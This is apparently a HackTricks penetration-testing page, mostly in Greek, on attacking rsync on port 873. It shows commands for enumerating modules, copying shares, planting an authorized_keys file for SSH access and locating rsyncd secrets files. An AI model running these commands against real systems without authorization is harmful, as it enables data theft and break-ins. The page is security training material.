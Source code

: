 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync** είναι ένα εργαλείο για την αποδοτική [μεταφορά](https://en.wikipedia.org/wiki/File\_transfer) και [συγχρονισμό](https://en.wikipedia.org/wiki/File\_synchronization) [αρχείων](https://en.wikipedia.org/wiki/Computer\_file) μεταξύ ενός υπολογιστή και ενός εξωτερικού σκληρού δίσκου και σε [δικτυωμένους](https://en.wikipedia.org/wiki/Computer\_network) [υπολογιστές](https://en.wikipedia.org/wiki/Computer) συγκρίνοντας τους [χρόνους τροποποίησης](https://en.wikipedia.org/wiki/Timestamping\_\(computing\)) και τα μεγέθη των αρχείων.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) Βρίσκεται συνήθως σε [Unix-like](https://en.wikipedia.org/wiki/Unix-like) [λειτουργικά συστήματα](https://en.wikipedia.org/wiki/Operating\_system). Ο αλγόριθμος rsync είναι ένας τύπος [delta encoding](https://en.wikipedia.org/wiki/Delta\_encoding) και χρησιμοποιείται για τη μείωση της χρήσης δικτύου. [Zlib](https://en.wikipedia.org/wiki/Zlib) μπορεί να χρησιμοποιηθεί για επιπλέον [συμπίεση δεδομένων](https://en.wikipedia.org/wiki/Data\_compression),[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) και [SSH](https://en.wikipedia.org/wiki/Secure\_Shell) ή [stunnel](https://en.wikipedia.org/wiki/Stunnel) μπορεί να χρησιμοποιηθεί για ασφάλεια.

**Default port:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Enumeration

### Banner & Manual communication
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **Καταμέτρηση Κοινών Φακέλων**

**Τα modules Rsync** αναγνωρίζονται ως **κοινές καταλόγοι** που μπορεί να είναι **προστατευμένοι με κωδικούς πρόσβασης**. Για να εντοπιστούν τα διαθέσιμα modules και να ελεγχθεί αν απαιτούν κωδικούς πρόσβασης, χρησιμοποιούνται οι εξής εντολές:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
Να είστε προσεκτικοί ότι ορισμένα κοινά μπορεί να μην εμφανίζονται στη λίστα, πιθανώς κρύβοντάς τα. Επιπλέον, η πρόσβαση σε ορισμένα κοινά μπορεί να περιορίζεται σε συγκεκριμένα **credentials**, όπως υποδεικνύεται από ένα μήνυμα **"Access Denied"**.

### [**Brute Force**](../generic-methodologies-and-resources/brute-force.md#rsync)

### Χειροκίνητη Χρήση Rsync

Αφού αποκτηθεί μια **λίστα modules**, οι ενέργειες εξαρτώνται από το αν απαιτείται αυθεντικοποίηση. Χωρίς αυθεντικοποίηση, η **καταγραφή** και η **αντιγραφή** αρχείων από έναν κοινό φάκελο σε έναν τοπικό κατάλογο επιτυγχάνεται μέσω:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
Αυτή η διαδικασία **μεταφέρει αρχεία αναδρομικά**, διατηρώντας τα χαρακτηριστικά και τις άδειές τους.

Με **διαπιστευτήρια**, η καταχώρηση και η λήψη από έναν κοινόχρηστο φάκελο μπορεί να γίνει ως εξής, όπου θα εμφανιστεί μια προτροπή για κωδικό πρόσβασης:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
Για να **ανεβάσετε περιεχόμενο**, όπως ένα _**authorized_keys**_ αρχείο για πρόσβαση, χρησιμοποιήστε:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

Για να εντοπίσετε το αρχείο ρύθμισης παραμέτρων rsyncd, εκτελέστε:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
Within this file, a _secrets file_ parameter might point to a file containing **ονόματα χρηστών και κωδικούς πρόσβασης** for rsyncd authentication.


## References
* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
